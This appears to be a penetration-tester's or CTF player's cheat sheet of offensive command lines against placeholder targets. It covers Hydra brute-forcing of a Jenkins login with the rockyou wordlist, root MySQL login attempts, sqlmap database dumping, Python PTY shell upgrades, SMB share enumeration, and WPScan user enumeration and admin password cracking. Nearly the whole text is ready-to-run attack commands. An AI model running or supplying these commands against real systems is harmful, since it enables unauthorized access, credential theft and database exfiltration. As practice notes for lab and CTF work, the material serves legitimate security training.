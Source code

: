 ### jenkins
```
hydra [RHOST] -s <PORT> -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P r/usr/share/wordlists/rockyou.txt
```
# mysql
```
mysql -h [RHOST] -uroot -p
```
## sqlmap
```
sqlmap -u http://[RHOST] --forms --batch --dump
```

```
sqlmap -r req.txt --batch --dump
```
# terminal
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
# smb
```
smbclient //10.10.157.172/Data
```

```
smbclient -L [RHOST] -U "user"
```
# wordpress
## enumerate users
```
wpscan --url http://[RHOST]/ --enumerate t --enumerate p --enumerate u
```

```
wpscan --url http://[RHOST] -e u
```
## all plugins
```
wpscan --url http://[RHOST] -e ap
```
## crack password
```
wpscan --url http://[RHOST] --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```
